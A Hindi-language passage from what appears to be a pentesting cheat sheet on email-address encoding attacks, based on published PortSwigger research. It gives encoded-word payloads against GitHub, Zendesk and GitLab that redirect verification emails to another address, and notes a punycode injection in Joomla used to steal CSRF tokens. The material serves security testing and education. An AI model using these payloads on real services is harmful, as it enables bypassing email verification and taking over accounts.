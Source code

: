 ### ईमेल एन्कोडिंग

जैसा कि [**इस शोध**](https://portswigger.net/research/splitting-the-email-atom) में समझाया गया है, ईमेल नामों में एन्कोडेड वर्ण भी हो सकते हैं:

- **PHP 256 ओवरफ्लो**: PHP `chr` फ़ंक्शन एक वर्ण में 256 जोड़ता रहेगा जब तक कि यह सकारात्मक नहीं हो जाता और फिर ऑपरेशन `%256` करता है।
- `String.fromCodePoint(0x10000 + 0x40) // 𐁀 → @`

> [!TIP]
> इस ट्रिक का लक्ष्य एक इंजेक्शन के साथ समाप्त होना है जैसे `RCPT TO:<"collab@psres.net>collab"@example.com>`\
> जो सत्यापन ईमेल को अपेक्षित ईमेल पते से अलग ईमेल पते पर भेजेगा (इसलिए ईमेल नाम के अंदर एक और ईमेल पते को पेश करना और ईमेल भेजते समय सिंटैक्स को तोड़ना)।

विभिन्न एन्कोडिंग:
```bash
# Format
=? utf-8 ? q ? =41=42=43 ?= hi@example.com --> ABChi@example.com

# =? -> Start of encode
# utf-8 -> encoding used
# ? -> separator
# q -> type of encoding
# ? -> separator
# =41=42=43 -> Hex encoded data
# ?= end of encoding

# Other encodings, same example:
# iso-8859-1
=?iso-8859-1?q?=61=62=63?=hi@example.com
# utf-8
=?utf-8?q?=61=62=63?=hi@example.com
# utf-7
=?utf-7?q?<utf-7 encoded string>?=hi@example.com
# q encoding + utf-7
=?utf-7?q?&=41<utf-7 encoded string without initial A>?=hi@example.com
# base64
=?utf-8?b?QUJD?=hi@example.com
# bas64 + utf-7
=?utf-7?q?<utf-7 encoded string in base64>?=hi@example.com
#punycode
x@xn--svg/-9x6 → x@<svg/
```
Payloads:

- Github: `=?x?q?collab=40psres.net=3e=00?=foo@example.com`
- ध्यान दें कि एन्कोडेड `@` =40 के रूप में, एन्कोडेड `>` के रूप में `=3e` और `null` के रूप में `=00`&#x20;
- यह सत्यापन ईमेल `collab@psres.net` पर भेजेगा
- Zendesk: `"=?x?q?collab=22=40psres.net=3e=00==3c22x?="@example.com`
- पहले की तरह ही ट्रिक लेकिन शुरुआत में कुछ सामान्य उद्धरण जोड़ते हुए और एन्कोडेड उद्धरण `=22` को एन्कोडेड `@` से पहले और फिर अगले ईमेल से पहले कुछ उद्धरण शुरू और बंद करते हुए Zendesk द्वारा आंतरिक रूप से उपयोग की गई सिंटैक्स को ठीक करने के लिए
- यह सत्यापन ईमेल `collab@psres.net` पर भेजेगा
- Gitlab: `=?x?q?collab=40psres.net_?=foo@example.com`
- पता अलग करने के लिए अंडरस्कोर के उपयोग पर ध्यान दें
- यह सत्यापन ईमेल `collab@psres.net` पर भेजेगा
- Punycode: Punycode का उपयोग करके Joomla में `<style` टैग को इंजेक्ट करना संभव था और इसे CSS एक्सफिल्ट्रेशन के माध्यम से CSRF टोकन चुराने के लिए दुरुपयोग करना।
